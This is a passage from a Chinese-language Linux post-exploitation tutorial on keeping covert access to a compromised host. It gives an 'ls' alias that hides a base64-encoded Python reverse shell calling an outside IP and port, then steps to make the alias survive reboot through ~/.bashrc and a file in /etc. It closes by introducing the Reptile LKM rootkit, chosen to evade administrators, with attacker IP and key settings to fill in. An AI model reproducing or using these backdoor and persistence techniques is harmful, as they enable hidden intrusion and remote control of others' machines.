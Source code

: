 升级版本：

```bash
alias ls='alerts(){ ls $* --color=auto;python3 -c "import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'\''UTF-8'\'')}[sys.version_info[0]]('\''aW1wb3J0IG9zLHNvY2tldCxzdWJwcm9jZXNzOwpyZXQgPSBvcy5mb3JrKCkKaWYgcmV0ID4gMDoKICAgIGV4aXQoKQplbHNlOgogICAgdHJ5OgogICAgICAgIHMgPSBzb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULCBzb2NrZXQuU09DS19TVFJFQU0pCiAgICAgICAgcy5jb25uZWN0KCgiNDcuOTQuMjM2LjExNyIsIDY2NjYpKQogICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSwgMCkKICAgICAgICBvcy5kdXAyKHMuZmlsZW5vKCksIDEpCiAgICAgICAgb3MuZHVwMihzLmZpbGVubygpLCAyKQogICAgICAgIHAgPSBzdWJwcm9jZXNzLmNhbGwoWyIvYmluL3NoIiwgIi1pIl0pCiAgICBleGNlcHQgRXhjZXB0aW9uIGFzIGU6CiAgICAgICAgZXhpdCgp'\'')))";};alerts'
```

这里，我们需要将这个base64解码后修改一下我们对应的ip地址和端口！！！

![截图](1c947f76ba28598dbf1d3ebc7edc3d51.png)

最终效果如下：

![截图](3056c0b29d24f357d25e72e4ab07267a.png)

#### 持久化+隐藏

但是这里由于这个别名会重启失效，因此若想要持久化的利用，必须修改对应的`.bashrc`文件

```bash
vim /etc/upload # 写入命令
```

`bashrc`

```bash
vim ～/.bashrc
```

```sh
if [ -f /etc/upload ]; then
. /etc/upload
fi
```

然后重启看看是不是依旧有效：

![截图](e183b9f8998f6bbd4ceb137c662020ca.png)

## 0x04 内核加载LKM-Rootkit后门

现在常用的linux维持权限的方法大多用`crontab`和`开机自启动`，同时使用的大多是`msf `或者其它的`tcp`连接来反弹`shell` ,这种做法比较容易被管理员发现。所以我们想有一个非tcp连接、流量不容易被怀疑的后门，并且在大量的shell的场景下，可以管shell，`Reptile`刚好是种`LKM rootkit`，因此具有很好的隐藏性和强大的功能。

https://github.com/f0rb1dd3n/Reptile/releases/

#### 搭建与安装

注意，以下脚本需要修改一些地方：

1. Reptile-2.0/  ==>  修改为你上传解压后的目录
2. hax0r ==> 可以修改为你自己的token
3. s3cr3t ==> 可以修改为你自己的密钥
4. 攻击机ip与端口 ==> 需要你修该为你自己的！
